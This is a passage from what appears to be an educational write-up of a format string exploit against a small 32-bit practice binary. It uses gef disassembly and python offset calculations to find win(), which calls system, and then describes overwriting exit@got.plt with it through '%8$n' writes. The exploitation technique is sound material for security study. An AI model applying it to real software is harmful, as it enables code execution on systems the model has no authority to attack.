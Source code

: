 This means that adding `0x2e0b` to the third address leaked off of the stack will give the attacker the address of `exit@got.plt`. The attacker can use the same trick to calculate the address of `win()` using this leaked value.

```
gef➤  disas win
Dump of assembler code for function win:
   0x565561c9 <+0>:     push   ebp
   0x565561ca <+1>:     mov    ebp,esp
   0x565561cc <+3>:     push   ebx
   0x565561cd <+4>:     sub    esp,0x4
   0x565561d0 <+7>:     call   0x56556292 <__x86.get_pc_thunk.ax>
   0x565561d5 <+12>:    add    eax,0x2e2b
   0x565561da <+17>:    sub    esp,0xc
   0x565561dd <+20>:    lea    edx,[eax-0x1ff8]
   0x565561e3 <+26>:    push   edx
   0x565561e4 <+27>:    mov    ebx,eax
   0x565561e6 <+29>:    call   0x56556050 <system@plt>
   0x565561eb <+34>:    add    esp,0x10
   0x565561ee <+37>:    nop
   0x565561ef <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x565561f2 <+41>:    leave
   0x565561f3 <+42>:    ret
End of assembler dump.
```

The `win()` function is located at `0x565561c9`, and python can again be used to find the offset of this address from the leaked address.
```
$ python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x5655620d - 0x565561c9)
'0x44'
```
This means that subtracting `0x44` from the third address leaked off of the stack will give the attacker the address of `win()`.

One thing to note is that the attacker has complete control over the eighth address on the stack. In the below example, the attacker modifies the eighth value on the stack to be B's. Note that the eighth value on the stack is being used instead of the seventh value because the attack can only control two bytes of the seventh value on the stack.
```
$ ./got                                                                                                  127 ⨯
AABBBB%8$p
AABBBB0x42424242
```

If the attacker modifies the input to be `AABBBB%8$n`, the attacker can write an arbitrary number to the memory address `0x42424242`. The attacker can write to arbitrary memory by replacing the B's with a real memory address. In this exploit, the attacker will replace the B's with the calculated GOT address, and the attacker will write two bytes at a time (meaning that the attacker needs to use the format string vulnerability twice to write out the entire four-byte pointer to `win()` in the GOT entry).
